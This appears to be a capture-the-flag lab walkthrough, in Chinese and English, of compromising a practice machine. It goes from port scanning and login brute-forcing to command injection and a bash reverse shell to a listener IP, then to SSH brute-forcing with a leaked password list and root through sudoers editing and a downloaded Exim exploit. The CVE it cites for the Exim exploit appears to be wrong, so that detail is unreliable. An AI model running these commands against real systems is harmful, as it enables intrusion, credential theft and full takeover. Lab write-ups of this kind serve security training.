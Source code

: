 ## 🧭 信息收集 | Information Gathering

### 🔹 使用 nmap 扫描目标端口

```apl
nmap -sS -p- --min-rate=1000 -Pn 192.168.111.162 -oN all_ports.txt
```

确认开放端口：

- 22 (SSH)
- 80 (HTTP)

进一步使用详细脚本探测：

```apl
nmap -sC -sV -p22,80 192.168.111.162 -oN nmap_detailed.txt
```

> Basic enumeration shows standard SSH and a web service on port 80.

------

## 🌐 Web 页面分析与爆破 | Web Interaction & Brute Force

访问 Web 页面发现登录框，尝试默认账号失败后进行爆破。

使用 Burp Suite + 字典 `500pwds.txt` 进行爆破，发现成功登录信息：

```apl
admin : happy
```

> Brute-forced login credentials for the admin panel using Burp Intruder.

------

## 🧪 命令执行分析 | Command Execution

登录后台后页面存在执行命令功能，Burp 抓包修改命令为：

```apl
id
```

出现正常回显，判断为远程命令执行。

------

## 📡 反弹 shell | Reverse Shell

### 设置监听器：

```apl
nc -lvvp 8888
```

### 构造 payload（Burp 修改）：

```apl
bash -c "bash -i >& /dev/tcp/192.168.111.143/8888 0>&1"
```

成功反弹 shell。

------

## 🧱 获取稳定 shell | Gaining a Stable Shell

```apl
python -c "import pty; pty.spawn('/bin/bash')"
```

使用 Python 获取伪终端，提升交互体验。

------

## 🔍 文件与信息收集 | Internal Enumeration

查看 `/home/jim/backups/old-passwords.bak` 获取爆破字典。

使用 hydra 爆破 SSH：

```apl
hydra -l jim -P old-passwords.bak ssh://192.168.111.162
```

成功爆破出密码：

```apl
jim : jibril04
```

------

## 🔑 SSH 登录 | SSH Access

```apl
ssh jim@192.168.111.162
```

成功登录后系统提示 “You have new mail”，查看 mail：

```apl
cat /var/mail/jim
```

获取 Charles 的账号密码：

```apl
Charles : ^xHhA&hvim0y
```

登录 Charles 账户：

```apl
su Charles
```

------

## 📈 提权方式一：Sudo 提权 | Privilege Escalation (Method 1)

```apl
sudo -l
```

发现：

```apl
(root) NOPASSWD: /usr/bin/teehee
```

使用 teehee 修改 sudoers 文件：

```apl
echo 'charles ALL=(ALL:ALL) NOPASSWD:ALL' | sudo teehee -a /etc/sudoers
sudo su -
```

成功获取 root 权限。

------

## 🔁 提权方式二：Exim4 本地提权 | Privilege Escalation (Method 2)

查找 SUID 程序：

```apl
find / -user root -perm -4000 -print 2>/dev/null
```

发现 `exim4` 可执行，查看版本：

```apl
/usr/sbin/exim4 --version
```

版本在 4.87 - 4.91 之间，存在本地提权漏洞（CVE-2019-15846）。

使用 Exploit-DB 的脚本：

```apl
wget https://www.exploit-db.com/exploits/46996
bash 46996.sh
```

等待 shell 提权成功。

------

## 🏁 总结 | Summary

- 🔍 通过目录扫描与爆破成功进入后台
- 📡 远程命令执行后获取 shell 并反弹
- 🔑 通过 SSH 爆破+邮件信息成功切换用户
- 🔼 2 种方式提权获取 root：`sudo teehee` 和 `exim4 本地提权`

> A solid example of web-based RCE leading to multi-step privilege escalation.